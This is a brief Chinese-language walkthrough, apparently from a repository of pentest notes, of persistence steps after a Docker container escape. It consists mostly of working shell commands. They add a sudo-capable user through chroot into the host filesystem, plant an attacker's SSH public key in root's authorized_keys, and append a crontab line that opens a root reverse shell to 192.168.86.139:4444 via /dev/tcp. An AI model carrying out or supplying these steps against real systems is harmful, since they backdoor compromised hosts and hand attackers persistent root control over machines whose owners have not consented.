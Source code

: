 逃逸成功之后操作---docker

逃逸成功，后续操作

```shell
1、添加用户
2、写入ssh key
3、计划任务
```
 

1、添加用户
```shell
chroot /test1 adduser john
```
逃逸得目录 添加用户 用户名

 将用户 john 添加到 sudo 组
```shell
chroot /test1 /usr/sbin/usermod -aG sudo john
```
 
![image-20231202152434323](./assets/image-20231202152434323.png)

![image-20231202152437567](./assets/image-20231202152437567.png)
```shell
登录：ssh john@your_server_ip
sudo -s
```
![image-20231202152441825](./assets/image-20231202152441825.png)

 

 

2、写入ssh key密钥登录
```shell
cd /test1/root/.ssh 到root ssh目录
本机执行：ssh-keygen -t ed25519 -N "123456"
N是密码
```
![image-20231202152445751](./assets/image-20231202152445751.png)

在目标机器插件authorized_keys文件
```shell
cat id_ed25519.pub
```
![image-20231202152450127](./assets/image-20231202152450127.png)

目标机器执行下面：
```shell
cat \>\> authorized_keys \<\< EOF
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIQVnh0Y2GhCxrEE7BSPPsN0oI13luK+r0yFZBidahtJ root@master-1
EOF
```
![image-20231202152453611](./assets/image-20231202152453611.png)
```shell
ssh -i id_ed25519 root@192.168.86.218
```
![image-20231202152457511](./assets/image-20231202152457511.png)

 

3、计划任务反弹shell【根据对方系统不同，反弹shell命令不同】
```shell
echo -e "\* \* \* \* \* root bash -i \>& /dev/tcp/192.168.86.139/4444 0\>&1\\n" \>\> /test1/etc/crontab
```
![image-20231202152501328](./assets/image-20231202152501328.png)

 
